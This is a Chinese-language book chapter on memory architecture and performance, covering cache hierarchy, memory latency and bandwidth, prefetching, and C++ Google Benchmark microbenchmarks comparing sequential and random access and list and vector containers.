






# 四、内存架构和性能

在 CPU 之后，内存通常是限制整体程序性能的硬件组件。在本章中，我们首先了解现代内存体系结构，它们固有的弱点，以及对抗或至少隐藏这些弱点的方法。对于许多程序而言，性能完全取决于程序员是否利用了旨在提高内存性能的硬件功能，本章将教授必要的技能。

在本章中，我们将介绍以下主要主题:

*   内存子系统概述
*   内存访问的性能
*   访问模式及其对算法和数据结构设计的影响
*   内存带宽和延迟

# 技术要求

同样，您将需要一个 C 编译器和一个微基准测试工具，例如我们在上一章中使用的 Google 基准库 (在[https://github.com/google/benchmark](https://github.com/google/benchmark)找到)。我们还将使用**LLVM 机器代码分析器** (**LLVM-MCA**)，在[https://llvm.org/docs/CommandGuide/ llvm-mca.html](https://llvm.org/docs/CommandGuide/llvm-mca.html)找到。如果要使用 MCA，则编译器的选择会受到更多限制: 您需要基于 LLVM 的编译器，例如 Clang。

本章的代码可以在这里找到: [https://github.com/PacktPublishing/ 写作艺术高效程序/tree/master/Chapter04](https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter04)

# 性能从 CPU 开始，但不到那里结束

在上一章中，我们研究了 CPU 资源以及使用它们以实现最佳性能的方法。特别是，我们观察到 cpu 具有并行进行大量计算的能力 (指令级并行性)。我们在多个基准测试上演示了它，这表明 CPU 可以在每个周期执行许多操作而没有任何性能损失: 例如，添加和减去两个数字所花费的时间与仅添加它们所花费的时间一样多。

但是，您可能已经注意到，这些基准和示例具有一个相当不寻常的属性。考虑以下示例:

```cpp
        for (size_t i = 0; i < N; ++ i) {
            a1 += p1[i] + p2[i];
            a2 += p1[i] * p2[i];
            a3 += p1[i] << 2;
            a4 += p2[i] – p1[i];
            a5 += (p2[i] << 1)*p2[i];
            a6 += (p2[i] - 3)*p1[i];
        }
```

我们已经使用了这段代码片段来证明，CPU 可以对两个值 (`p1[i]`和`p2[i]`) 进行八次操作，与仅进行一次操作相比，几乎没有额外的成本。但是我们总是非常小心地添加更多的操作而不添加更多的输入; 在某些情况下，我们提到，只要值已经在寄存器中，CPU 的内部并行性就会应用*。在前面的示例中，在添加第二个，第三个等直到第八个操作之前，我们都谨慎地只保留两个输入。这导致了一些不寻常和不现实的代码。在现实生活中，您通常需要在给定的一组输入上计算多少东西？大部分时间不到八个。*

这并不意味着 CPU 的整个计算潜力都被浪费了，除非你碰巧像前面的例子那样运行奇特的代码。指令级并行性是流水线的计算基础，在流水线中，我们同时执行来自循环不同迭代的操作。无分支计算就是将条件指令交易为无条件计算，因此，几乎完全依赖于这样一个事实，即我们通常可以免费获得更多的计算。

然而，问题仍然存在: 为什么我们以这种方式限制我们的 CPU 基准？毕竟，如果我们只添加更多输入，那么在前面的示例中提出八种不同的事情会容易得多:

```cpp
        for (size_t i = 0; i < N; ++ i) {
            a1 += p1[i] + p2[i];
            a2 += p3[i] * p4[i];
            a3 += p1[i] << 2;
            a4 += p2[i] - p3[i];
            a5 += (p4[i] << 1)*p2[i];
            a6 += (p3[i] - 3)*p1[i];
        }
```

这是我们之前看到的相同的代码，只是现在它在每次迭代中操作四个不同的输入值，而不是两个。它确实继承了前面示例的所有尴尬，但这仅仅是因为我们希望在衡量某些更改对性能的影响时尽可能少地进行更改。影响很大:


图 4.1

对四个输入值进行的相同计算需要大约 36% 长时间。当我们需要访问内存中的更多数据时，计算会以某种方式延迟。

应该注意的是，添加更多的独立变量，输入或输出可能会影响性能的另一个原因是: CPU 可能耗尽了用于存储这些变量以进行计算的寄存器。虽然这在许多实际程序中是一个重大问题，但在这里情况并非如此。代码不够复杂，无法用完现代 CPU 的所有寄存器 (不幸的是，确认这一点的最简单方法是检查机器代码)。

显然，访问更多数据似乎会降低代码的速度。但是为什么呢？在很高的水平上，原因是内存根本跟不上 CPU。有几种方法可以估计这个*内存间隙*的大小。最简单的方法在现代 CPU 的规格中是显而易见的。如今，cpu 在 3 ghz 和 4 ghz 之间的时钟频率下工作，这意味着一个周期约为 0.3 纳秒。正如我们所看到的，在正确的情况下，CPU 每秒可以执行几次操作，因此每纳秒执行十次操作并不是不可能的 (尽管在实践中很难实现，并且是非常有效的程序的肯定标志)。另一方面，存储器要慢得多: 例如，DDR4 存储器时钟工作在 400 MHz。您还可以找到高达 3200 MHz 的值; 但是，这不是内存时钟，而是*数据速率*，并将其转换为类似于*的内存速度，*您还必须考虑**列访问选通延迟**，通常称为**CAS 延迟**或**CL**。粗略地说，这是 RAM 接收数据请求，处理数据并返回值所需的周期数。没有单一的记忆速度定义在所有情况下都是有意义的 (在本章的后面，我们将看到一些原因)，但是，对于第一个近似，具有 3.2 GHz 和 CAS 延迟 15 的数据速率的 DDR4 模块的存储速度约为每次访问 107 MHz 或 9.4 纳秒。

无论从哪个角度来看，CPU 每秒可以执行的操作比内存提供这些操作的输入值或存储结果要多得多。所有程序都需要以某种方式使用内存，并且如何访问内存的细节将对性能产生重大影响，有时甚至会限制它。然而，细节是极其重要的: *内存间隙*对性能的影响可以从微不足道到内存成为程序的瓶颈。我们必须了解内存在不同条件下如何影响程序性能以及原因，因此我们可以使用这些知识来设计和实现我们的代码以获得最佳性能。

# 测量内存访问速度

我们有充分的证据认为，与内存中的数据相比，cpu 可以对寄存器中已经存在的数据进行更快的操作。仅处理器的规格和内存速度就表明至少存在一个数量级的差异。但是，到目前为止，我们已经了解到，在没有通过直接测量进行验证的情况下，不要对性能进行任何猜测或假设。这并不意味着任何关于系统架构的先验知识以及我们可以基于该知识做出的任何假设都没有用。这样的假设可以用来指导实验并设计正确的测量结果。我们将在本章中看到，偶然发现的过程只能带您走那么远，甚至会导致您出错。测量本身可能是正确的，但是通常很难确定确切的测量结果以及我们可以从结果中得出什么结论。

似乎测量内存访问速度应该相当微不足道。我们所需要的只是一些内存，以及一种读取时间的方法，就像这样:

```cpp
volatile int* p = new int;
*p = 42;
for (auto _ : state) {
    benchmark::DoNotOptimize(*p);
}
delete p;
```

这个基准测试和测量…。一些东西。您可以期望得到一次迭代的时间报告为 0 纳秒。这可能是不想要的编译器优化的结果: 如果编译器发现整个程序没有可观察到的效果，它确实可以将其优化为空。不过，我们确实对这样的事件采取了预防措施: 我们读取的内存是`volatile`，访问`volatile`内存被认为是可观察到的效果，无法优化掉。相反，0 纳秒的结果部分是基准测试本身的缺陷: 它表明单次读取速度快于 1 纳秒。虽然这不是我们基于记忆速度所期望的，但我们不能从一个我们不知道的数字中学到任何东西，包括我们自己的错误。要修复基准的测量方面，我们要做的就是在一个基准迭代中执行多次读取，就像这样:

```cpp
volatile int* p = new int;
*p = 42;
for (auto _ : state) {
    benchmark::DoNotOptimize(*p);
    … repeat 32 times …
    benchmark::DoNotOptimize(*p);
}
state.SetItemsProcessed(32*state.iterations());
delete p;
```

在这个例子中，我们每次迭代执行`32`读取。虽然我们可以从报告的迭代时间中计算出个人读取的时间，但让 Google 基准库为我们进行计算并报告每秒读取的次数是很方便的; 这是通过设置基准结束时处理的项目数来完成的。

此基准应报告在中程 CPU 上的迭代时间约为 5 纳秒，确认单次读取 1/32 此时间且远低于 1 纳秒 (因此，我们对每次迭代的单次读取报告为 0 的原因的猜测被验证)。另一方面，这个测量值与我们对内存缓慢的期望不符。我们先前对导致性能瓶颈的原因的假设可能是不正确的; 这不是第一次。或者，我们可能正在测量内存速度以外的其他东西。

## 内存架构

为了理解如何正确地测量内存性能，我们必须更多地了解现代处理器的内存体系结构。对于我们来说，记忆系统最重要的特点是它是分层的。CPU 不直接访问主内存，而是通过缓存的层次结构:


图 4.2-内存层次图

*图 4.2*中的**RAM**是主存储器，是主板上的 DRAM。当系统规格说机器有这么多千兆字节的内存时，这就是 DRAM 的容量。如您所见，CPU 不会直接访问主内存，而是通过缓存层次结构的多个级别访问。这些缓存也是内存电路，但是它们位于 CPU die 本身上，并且它们使用不同的技术来存储数据: 它们都是不同速度的 sram。从我们的角度来看，DRAM 和 SRAM 之间的主要区别在于 SRAM 的访问速度要快得多，但是它比 DRAM 消耗的功率要大得多。随着我们通过内存层次结构向 CPU 靠拢，内存访问的速度会增加: level-1 (**L1**) 缓存与 CPU 寄存器的访问时间几乎相同，但是它使用了如此强大的功能，以至于我们只能拥有几千字节的内存，最常见的是每个 CPU 内核 32 KB。下一级，**L2**缓存，较大但较慢，第三级 (**L3**) 缓存更大但也较慢 (通常在 CPU 的多核之间共享)，层次结构的最后一层是主内存本身。

当 CPU 第一次从主存储器中读取数据值时，该值会通过所有缓存级别传播，并且它的副本仍保留在缓存中。当 CPU 再次读取相同的值时，它不需要等待从主存储器中取出该值，因为相同值的副本已经在快速 L1 高速缓存中可用。

只要我们想要读取的数据适合 L1 缓存，这就是所有需要发生的事情: 所有数据将在第一次访问时加载到缓存中，之后，CPU 只需要访问 L1 缓存。但是，如果我们尝试访问当前不在缓存中的值，并且缓存已经充满，则必须从缓存中逐出某些东西以为新值腾出空间。这个过程完全由硬件控制，它有一些启发式方法来确定我们最不可能再次需要哪个值，基于我们最近访问的值 (对于第一个近似值，最长时间不使用的数据可能很快就不需要了)。下一级缓存更大，但它们的使用方式相同: 只要数据在缓存中，就可以在那里访问 (离 CPU 越近越好)。否则，它必须从下一级缓存中获取，或者对于 L3 缓存，从主存储器中获取，并且，如果缓存已满，则必须从缓存中逐出一些其他数据 (即，被缓存遗忘，因为原件保留在主存储器中)。

现在，我们可以更好地理解我们之前测量的内容: 由于我们一遍又一遍地读取相同的值，数万次，因此初始读取的成本完全丢失了，平均读取时间是 L1 缓存读取的时间。L1 缓存确实看起来相当快，所以如果你的整个数据适合 32 KB，你不需要担心内存间隙。否则，您必须学习如何正确测量内存性能，以便得出适用于您的程序的结论。

## 测量内存和缓存速度

现在我们明白了内存速度比单次读取的时间更复杂，我们可以设计一个更合适的基准。我们可以预期缓存大小会显著影响结果，因此我们必须访问不同大小的数据，从几千字节 (适合 32 KB L1 缓存) 到几十兆字节或更多 (L3 缓存大小不同，但通常约为 8 MB 到 12 MB)。由于对于大数据量，内存系统将不得不从高速缓存中逐出*旧*数据，因此我们可以预期性能取决于预测的效果，或者更一般地取决于访问模式。顺序访问 (例如复制一定范围的内存) 最终可能会与以随机顺序访问相同范围的执行方式非常不同。最后，结果可能取决于内存访问的粒度: 访问 64 位`long`值是否比访问单个`char`慢？

顺序读取一个大数组的简单基准可以看起来像这样:

```cpp
template <class Word>
void BM_read_seq(benchmark::State& state) {
    const size_t size = state.range(0);
    void* memory = ::malloc(size);
    void* const end = static_cast<char*>(memory) + size;
    volatile Word* const p0 = static_cast<Word*>(memory);
    Word* const p1 = static_cast<Word*>(end);
    for (auto _ : state) {
        for (volatile Word* p = p0; p != p1; ) {
            REPEAT(benchmark::DoNotOptimize(*p++);)
        }
        benchmark::ClobberMemory();
    }
    ::free(memory);
    state.SetBytesProcessed(size*state.iterations());
    state.SetItemsProcessed((p1 - p0)*state.iterations());
}
```

编写的基准看起来非常相似，在主循环中有一行的变化:

```cpp
    Word fill = {};    // Default-constructed
    for (auto _ : state) {
        for (volatile Word* p = p0; p != p1; ) {
            REPEAT(benchmark::DoNotOptimize(*p++ = fill);)
        }
        benchmark::ClobberMemory();
    }
```

我们写入数组的值应该无关紧要; 如果你担心零在某种程度上是*特殊*，你可以用任何其他值初始化`fill`变量。

宏`REPEAT`用于避免多次手动复制基准代码。我们仍然希望每次迭代执行几个内存读取: 虽然避免每次迭代*0 纳秒*报告不那么重要，一旦我们开始报告每秒读取的次数，循环本身的开销对于像我们这样非常便宜的迭代来说是不平凡的，所以最好手动展开这个循环。我们的`REPEAT`宏展开循环 32 次:

```cpp
#define REPEAT2(x) x x
#define REPEAT4(x) REPEAT2(x) REPEAT2(x)
#define REPEAT8(x) REPEAT4(x) REPEAT4(x)
#define REPEAT16(x) REPEAT8(x) REPEAT8(x)
#define REPEAT32(x) REPEAT16(x) REPEAT16(x)
#define REPEAT(x) REPEAT32(x)
```

当然，我们必须确保我们请求的内存大小对于`Word`类型的 32 个值足够大，并且数组的总大小可以被 32 整除; 这两者都不是我们基准代码的重要限制。

说到`Word`类型，这是我们第一次使用`TEMPLATE`基准。它用于生成几种类型的基准测试，而无需复制代码。调用这样的基准略有不同:

```cpp
#define ARGS ->RangeMultiplier(2)->Range(1<<10, 1<<30)
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned int) ARGS;
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned long) ARGS;
```

如果 CPU 支持，我们可以在更大的块中读取和写入数据，例如，使用 SSE 和 AVX 指令在 x86 CPU 上一次移动 16 或 32 个字节。在 GCC 或 Clang 中，有这些较大类型的库头:

```cpp
#include <emmintrin.h>
#include <immintrin.h>
…
BENCHMARK_TEMPLATE1(BM_read_seq, __m128i) ARGS;
BENCHMARK_TEMPLATE1(BM_read_seq, __m256i) ARGS;
```

类型`__m128i`和`__m256i`没有内置到语言中 (至少不是 C/C)，但是 C 可以让我们轻松声明新类型: 这些是值类型类 (表示单个值的类)，并且它们具有为它们定义的一组算术运算，例如加法和乘法，编译器使用适当的 SIMD 指令来实现。

前面的基准测试从开始到结束依次访问内存范围，一次一个字。内存的大小不同，如基准参数所指定的 (在示例中，从 1 KB 到 1 GB，每次加倍)。复制内存范围后，基准测试从一开始就再次进行，直到累积足够的测量值。

在测量以随机顺序访问内存的速度时，必须更加小心。*天真*实现将看到我们对看起来像这样的代码进行基准测试:

```cpp
benchmark::DoNotOptimize(p[rand() % size]);
```

不幸的是，这个基准测量调用`rand()`函数所花费的时间: 它的计算成本比读取单个整数要高得多，以至于你永远不会注意到后者的成本。即使是模运算符`%`也比单次读或写要贵得多。获得远程精确的唯一方法是预先计算随机索引并将其存储在另一个数组中。当然，我们必须面对这样一个事实，即我们现在正在读取索引值和索引数据，因此测量的成本是两次读取 (或一次读取和写入) 的成本。

随机顺序写入内存的附加代码可以如下:

```cpp
    const size_t N = size/sizeof(Word);
    std::vector<int> v_index(N); 
    for (size_t i = 0; i < N; ++ i) v_index[i] = i;
    std::random_shuffle(v_index.begin(), v_index.end());
    int* const index = v_index.data();
    int* const i1 = index + N;
    Word fill; memset(&fill, 0x0f, sizeof(fill));
    for (auto _ : state) {
        for (const int* ind = index; ind < i1; ) {
            REPEAT(*(p0 + *ind++) = fill;)
        }
        benchmark::ClobberMemory();
    }
```

在这里，我们使用 STL 算法`random_shuffle`来生成索引的随机顺序 (我们可以使用随机数代替; 它并不完全相同，因为某些索引会出现不止一次，而其他索引则不会出现，但它不会对结果产生太大影响)。我们写的值并不重要: 写任何数字都需要相同的时间，但是编译器有时可以做特殊的优化，如果它能弄清楚代码正在写很多零，所以最好避免这样做，写别的东西。还要注意，较长的 AVX 类型不能用整数初始化，因此我们使用`memset()`将任意位模式写入值。

当然，阅读的基准非常相似，只是内部循环必须改变:

```cpp
REPEAT(benchmark::DoNotOptimize(*(p0 + *ind++));)
```

我们有基准代码，主要衡量内存访问的成本。推进指数所需的算术运算是不可避免的，但是加法最多只需要一个周期，我们已经看到 CPU 可以同时做几个，所以数学不会成为瓶颈 (而且，在任何情况下，访问数组中的内存的任何程序都必须进行相同的计算，因此这在实践中很重要)。现在让我们看看我们努力的结果。

# 记忆的速度: 数字

现在我们有了我们的基准代码来测量读取和写入内存的速度，我们可以收集结果，看看在访问内存中的数据时如何获得最佳性能。我们从随机访问开始，我们读取或写入的每个值的位置都是不可预测的。

## 随机存储器存取的速度

除非您多次运行此基准并对结果进行平均 (基准库可以为您做到这一点)，否则测量结果可能会相当嘈杂。对于*合理*运行时间 (分钟)，您可能会看到如下结果:


图 4.3-随机读取速度作为内存大小的函数

*图 4.3*中的基准结果显示每秒从内存中读取的字数 (以十亿为单位，在您今天可以找到的任何合理的 PC 或工作站上)，其中*字*是 64 位整数或 265 位整数 (分别为`long`或`__m256i`)。可以替代地将相同的测量值显示为读取所选大小的单个单词所花费的时间:


图 4.4-一个数组元素的读取时间与数组大小

这些图表有几个有趣的特征，我们可以同时观察到。首先，正如我们预期的那样，没有单一的内存速度。在我使用的机器上读取单个 64 位整数所需的时间从 0.3 纳秒到 7 纳秒不等。每值读取少量数据比读取大量数据要快得多。我们可以在这些图中看到缓存大小: 32 KB 的 L1 缓存速度很快，读取速度不取决于数据量，只要它都适合 L1 缓存。一旦我们超过 32 KB 的数据，读取速度就会开始下降。数据现在适合 L2 高速缓存，它更大 (256 KB) 但更慢。数组越大，它随时适合快速 L1 缓存的部分就越小，访问速度越慢。

如果数据从 L2 缓存中溢出，读取时间会增加更多，我们必须使用 L3 缓存，这甚至更慢。但是，L3 缓存要大得多，因此在数据大小超过 8 MB 之前什么都不会发生。只有在这一点上，我们才真正开始从主存储器读取: 直到现在，我们第一次触摸它时，数据才从存储器移动到缓存中，并且所有随后的读取操作仅使用缓存。但是如果我们需要一次访问超过 8 MB 的数据，其中一些必须从主内存中读取 (无论如何，在这台机器上 -- 缓存大小因 CPU 型号而异)。当然，我们不会马上失去缓存的好处: 只要大多数数据都适合缓存，它至少在某种程度上是有效的。但是，一旦数据量超过缓存大小几倍，读取时间几乎完全取决于从内存中检索数据所花费的时间。

每当我们需要读取或写入某个变量，并且在缓存中找到它时，我们将其称为*缓存命中*。但是，如果找不到，那么我们注册一个*缓存 miss*。当然，L1 缓存未命中可以是 L2 命中。L3 缓存未命中意味着我们必须一直走到主内存。

注意的第二个属性是值本身: 7 纳秒从内存中读取单个整数。按照处理器的标准，这是一个非常长的时间: 在上一章中，我们已经看到同一 CPU 每纳秒可以执行几次操作。让它陷入: CPU 可以在从内存中读取单个整数值所花费的时间内执行大约 50 个算术运算，除非该值恰好已经在缓存中。很少有程序需要对每个值进行 50 次操作，这意味着除非我们能找出一些加快内存访问速度的东西，否则 CPU 很可能会没有得到充分利用。

最后，我们看到每秒以单词为单位的读取速度不取决于单词的大小。从实际的角度来看，最相关的含义是，如果我们使用 256 位指令读取内存，则可以读取四倍的数据。当然，没那么简单: SSE 和 AVX 加载指令将值读取到与常规加载不同的寄存器中，因此我们还必须使用 SSE 或 AVX SIMD 指令来进行计算。一个更简单的情况是，我们只需要将大量数据从内存中的一个位置复制到另一个位置; 我们的测量结果表明，复制 256 位字比使用 64 位字快四倍。当然，已经有一个复制内存的库函数，`memcpy()`或`std::memcpy()`，它是为了获得最佳效率而优化的。

速度不取决于字大小这一事实还有另一个含义: 它意味着读取速度受延迟而不是带宽限制。延迟是指发出数据请求和检索数据之间的延迟。带宽是内存总线在给定时间内可以传输的数据总量。从 64 位字到 256 位字同时传输四倍的数据; 这意味着我们还没有达到带宽限制。虽然这看起来像是纯粹的理论上的区别，但它确实对编写高效的程序有重要的影响，我们将在本章后面学习这些程序。

最后，我们可以测量写入内存的速度:


图 4.5-一个数组元素的写入时间与数组大小

在我们的例子中，随机读取和写入具有非常相似的性能，但是对于不同的硬件，这可能会有所不同: 有时读取速度更快。我们之前观察到的关于内存读取速度的所有内容也适用于写入: 我们在*图 4.5*中看到缓存大小的影响，如果涉及主内存，写入的总体等待时间会很长，而写大字的效率更高。

关于内存访问对性能的影响，我们可以得出什么结论？一方面，如果我们需要重复访问少量数据 (小于 32 KB)，我们就不用太担心它了。当然，*反复*是这里的关键: 无论我们计划访问多少内存，对任何内存位置的第一次访问都必须触摸主内存 (计算机不知道你的数组很小，直到你读取整个数组并回到开始-第一次读取小数组的第一个元素看起来与读取大数组的第一个元素完全相同)。另一方面，如果我们必须访问大量数据，那么内存速度很可能成为我们的第一个关注点: 在每个数字 7 纳秒的情况下，你不能走得很远。

在本章中，我们将看到几种提高内存性能的技术。在我们研究如何改进我们的代码之前，让我们看看我们可以从硬件本身获得什么帮助。

## 顺序存储器存取的速度

到目前为止，我们已经测量了在随机位置访问内存的速度。当我们这样做时，每个内存访问实际上都是新的。我们正在读取的整个数组被加载到它可以容纳的最小缓存中，然后我们的读写随机访问该缓存中的不同位置。如果数组不适合任何缓存，那么我们随机访问内存中的不同位置，每次访问都会产生 7 纳秒的延迟 (对于我们使用的硬件)。

随机内存访问在我们的程序中经常发生，但同样，我们有一个大数组，我们需要处理从第一个元素到最后一个元素。需要指出的是，这里的*随机*和*顺序*存取是由内存地址的顺序决定的。有一个潜在的误解: 列表是不支持随机访问的数据结构 (意味着你不能跳到列表的中间)，必须从 head 元素开始顺序访问。但是，如果每个列表元素分别在不同的时间分配，则顺序遍历列表可能会以随机顺序访问内存。另一方面，数组是一种随机访问数据结构 (这意味着您可以访问任何元素，而无需访问之前的元素)。但是，从开始到结束读取数组会按单调增加的地址顺序顺序访问内存。在整章中，除非另有说明，否则当我们谈论顺序访问或随机访问时，我们关注的是访问内存地址的顺序。

顺序内存访问的性能大不相同。以下是顺序写入的结果:



图 4.6-一个数组元素的写入时间与数组大小，顺序访问

图形的整体形状与以前相同，但是差异与相似性一样重要。我们应该注意的第一个区别是垂直轴的比例: 时间值比我们在*图 4.5*中看到的要小得多。写入 256 位值仅需 2.5 纳秒，而 64 位整数仅需 0.8 纳秒。

第二个区别是不同字长的曲线不再相同。这里的一个重要警告是，此结果高度依赖于硬件: 在许多系统上，您将看到的结果与上一节中的结果更相似。在我使用的硬件上，不同字大小的顺序写入时间对于 L1 缓存是相同的，但对于其他缓存和主存储器是不同的。查看主存储器值，我们可以观察到，写入 64 位整数的时间并不是写入 32 位整数所需时间的两倍，对于较大的尺寸，每次字大加倍时，写入次数都会增加一倍。这意味着限制不是我们每秒可以写多少个单词，而是每秒写多少个字节: 对于所有单词大小 (最小的单词除外)，以字节为单位的速度将是相同的。这意味着速度现在不受延迟的限制，而是受带宽的限制: 我们将位推入内存的速度与总线可以传输它们的速度一样快，不管我们是把它们分成 64 位块还是 256 位块，我们称之为*字*，我们已经达到了内存的带宽限制。同样，这个结果比我们在本章中做的任何其他观察都更依赖于硬件: 在许多机器上，内存足够快，单个 CPU 无法饱和其带宽。

我们可以做的最后一个观察是，尽管与缓存大小相对应的曲线中的步骤仍然可见，但它们的发音要少得多，而且几乎没有那么陡峭。我们有结果，我们有观察。这一切意味着什么？

## 硬件中的内存性能优化

这三个观察结果相结合，指出了硬件本身采用的某种延迟隐藏技术 (除了改变内存访问顺序，我们没有做任何事情来提高我们代码的性能，所以收益都归功于硬件做了一些不同的事情)。当随机访问主存储器时，每次访问在我们的机器上需要 7 纳秒。这就是从请求特定地址的数据到交付到 CPU 寄存器所需的时间，这种延迟完全由延迟决定 (不管我们请求多少字节，我们必须等待 7 纳秒才能得到任何东西)。当按顺序访问内存时，硬件可以立即开始传输阵列的下一个元素: 第一个元素仍然需要 7 纳秒才能访问，但是之后，硬件可以像 CPU 和内存总线可以处理它一样快地开始从内存流式传输整个阵列。甚至在 CPU 发出数据请求之前，就开始传输阵列的第二个和后面的元素。因此，延迟不再是限制因素，带宽是。

当然，这假设硬件知道我们要按顺序访问整个阵列以及阵列的大小。实际上，硬件对此一无所知，但是，就像我们在上一章中研究的条件指令一样，内存系统中存在学习电路，可以进行有根据的猜测。在我们的例子中，我们遇到了称为**预取**的硬件技术。一旦存储器控制器注意到 CPU 已经顺序地访问了几个地址，它就假设模式将继续，并通过将数据传输到 L1 高速缓存 (用于读取) 或腾出 L1 高速缓存中的空间 (用于写入) 来准备下一个存储器位置的访问。理想情况下，预取技术将允许 CPU 始终以 L1 高速缓存速度访问内存，因为当 CPU 需要每个阵列元素时，它已经在 L1 高速缓存中。现实是否与这种理想情况相匹配取决于 CPU 在访问相邻元素之间需要做多少工作。在我们的基准测试中，CPU 几乎完全不起作用，而预取则落后了。即使预期线性顺序访问，它也无法足够快地在主存储器和 L1 高速缓存之间传输数据。但是，预取在隐藏内存访问的延迟方面非常有效。

预取不是基于关于如何访问内存的任何先见之明或先验知识 (有一些特定于平台的系统调用，允许程序通知硬件一系列内存将被顺序访问，但它们不是可移植的，在实践中，很少有用)。相反，预取尝试检测访问内存中的模式。因此，预取的有效性取决于它可以如何有效地确定模式并猜测下一次访问的位置。

关于预取模式检测的局限性有很多信息，其中很多已经过时了。例如，在较旧的文献中，您可以阅读到以*向前*顺序访问内存 (对于数组`a`，从`a[0]`转到`a[N-1]`) 比向后*更有效。对于任何现代 CPU 来说，这都不再是真的，而且已经有好几年了。如果我开始准确描述哪些模式在预取方面是有效的，哪些模式是有效的，这本书有陷入同样陷阱的风险。最终，如果你的算法需要一个特定的内存访问模式，并且你想知道你的预取是否可以处理它，最可靠的方法是使用类似于我们在本章中用于随机内存访问的基准代码来测量它。*

一般而言，我可以告诉您，预取对于按递增和递减顺序访问内存同样有效。但是，反转方向会产生一些惩罚，直到预取调整到新模式为止。与密集的顺序访问一样，可以检测和预测大步访问内存，例如访问数组中的每四个元素。预取可以检测多个并发的步幅 (即访问每三分之一和每第七个元素)，但是在这里，我们进入了您必须收集自己的数据的领域，因为硬件功能从一个处理器到另一个处理器。

硬件非常成功地采用的另一种性能优化技术是熟悉的技术: **流水线**或**硬件循环展开**。我们已经在上一章看到了它，它被用来隐藏条件指令造成的延迟。同样，流水线用于隐藏内存访问的延迟。考虑这个循环:

```cpp
for (size_t i = 0; i < N; ++ i) {
    b[i] = func(a[i]);
}
```

每次迭代时，我们都会从数组中读取一个值`a[i]`，进行一些计算，并将结果`b[i]`存储在另一个数组中。由于读写都需要时间，我们可以期望循环执行的时间线看起来像这样:


图 4.7-非流水线循环的时间线

此操作序列将使 CPU 大部分时间等待内存操作完成。相反，硬件将提前读取到指令流中，并覆盖彼此不依赖的指令序列:


图 4.8-流水线 (展开) 循环的时间线

假设有足够的寄存器，第二个数组元素的负载可以在第一个被读取后立即开始。为简单起见，我们假设 CPU 不能一次加载两个值; 大多数真正的 CPU 可以同时进行多个内存访问，这仅意味着管道可以更宽，但并不能改变主要思想。一旦输入值可用，第二组计算就开始。在最初的几个步骤之后，流水线被加载，并且 CPU 花费大部分时间进行计算 (如果来自不同迭代的计算步骤重叠，则 CPU 甚至可能一次执行几次迭代，前提是它有足够的计算单元来执行)。

流水线可以隐藏内存访问的延迟，但是，显然，有一个限制。如果读取一个值需要 7 纳秒，并且我们需要读取一百万个值，那么最多需要 7 毫秒，这是无法解决的 (再次，假设 CPU 一次只能读取一个值)。流水线可以通过将计算与内存操作叠加来帮助我们，因此，在理想情况下，所有计算都在这 7 毫秒内完成。预取可以在我们需要它之前开始读取下一个值，从而减少平均读取时间，但前提是它正确地猜测该值是什么。无论哪种方式，本章所做的测量都显示了以不同方式访问内存的最佳情况。

在测量内存速度和展示结果方面，我们已经涵盖了基础知识，并了解了内存系统的一般属性。任何更详细或更具体的测量都是留给读者的练习，你应该有足够的能力来收集你需要的数据，以便对你的特定应用的性能做出明智的决定。我们现在将注意力转向下一步: 我们知道内存是如何工作的，以及我们可以从中期待什么样的性能，但是我们能做些什么来提高具体程序的性能呢？

# 优化内存性能

许多程序员在上一节学习材料时的第一反应通常是: *“谢谢，我现在明白为什么我的程序很慢，但是我必须处理我拥有的数据量，而不是理想的 32 KB，算法是什么，包括复杂的数据访问模式，因此我对此无能为力。”如果我们没有学会如何为我们需要解决的问题获得更好的内存性能，这一章就没有多大价值。在本节中，我们将学习可用于提高内存性能的技术。*

## 内存高效数据结构

就内存性能而言，数据结构的选择，或者更一般地说，数据组织的选择通常是程序员做出的最重要的决定。理解你能做什么和不能做什么是很重要的: *图 4.5*和*图 4.6*所示的内存性能确实是全部存在的，你无法绕过它 (严格来说，这只是 99% 真实的; 有一些奇特的存储器访问技术，很少会超过这些图中所示的限制)。但是，您可以选择这些图形上与程序相对应的点的位置。让我们首先考虑一个简单的例子: 我们有 1 M 64 位整数，我们需要按顺序存储和处理。我们可以将这些值存储在数组中; 数组的大小将为 8 MB，根据我们的测量，每个值的访问时间约为 0.6 纳秒，如*图 4.6*所示。



图 4.9-一个数组 (A) 与列表 (L) 元素的写入时间

或者，我们可以使用列表来存储相同的数字。`std::list`是节点的集合，每个节点都有值和两个指向下一个和上一个节点的指针。因此，整个列表使用 24 MB 的内存。此外，每个节点都是通过对`operator new`的单独调用来分配的，因此不同的节点可能位于非常不同的地址，特别是如果程序同时进行其他内存分配和解除分配。在遍历列表时，我们需要访问的地址中不会有任何模式，因此要找到列表的性能，我们需要做的就是找到对应于 24 MB 内存范围的点随机内存访问的曲线。这使我们每个值仅超过 5 纳秒，或者比访问数组中的相同数据慢了几乎一个数量级。

在这一点上，那些要求证明的人已经从上一章中学到了一些有价值的东西。我们可以很容易地构造一个微基准来比较将数据写入相同大小的列表和向量。以下是向量的基准:

```cpp
template <class Word>
void BM_write_vector(benchmark::State& state) {
    const size_t size = state.range(0);
    std::vector<Word> c(size);
    Word x = {};
    for (auto _ : state) {
        for (auto it = c.begin(), it0 = c.end(); it != 
          it0;) {
            REPEAT(benchmark::DoNotOptimize(*it++ = x);)
        }
        benchmark::ClobberMemory();
    }
}
BENCHMARK_TEMPLATE1(BM_write_vector, unsigned long)->Arg(1<<20);
```

将`std::vector`更改为`std::list`以创建列表基准。请注意，与早期的基准测试相比，大小的含义发生了变化: 现在它是容器中元素的数量，因此内存大小将取决于元素类型和容器本身，正如图 4.6 所示。对于 1 m 元素，结果完全符合承诺:


图 4.10-列表与矢量基准比较

为什么会有人选择列表而不是数组 (或`std::vector`)？最常见的原因是，在创建时，我们不知道我们将拥有多少数据，并且由于涉及复制，因此生长矢量效率极低。有几种方法可以解决这个问题。有时可以相对便宜地预先计算数据的最终大小。例如，它可能需要我们对输入数据进行一次扫描，以确定为结果分配多少空间。如果有效地组织了输入，则值得在输入上进行两次传递: 第一，计数，第二，处理。

如果无法提前知道最终数据大小，我们可能需要一个更智能的数据结构，将向量的内存效率与列表的调整大小效率结合起来。这可以使用分块数组来实现:



图 4.11-可以就地生长分配块的数组 (deque)

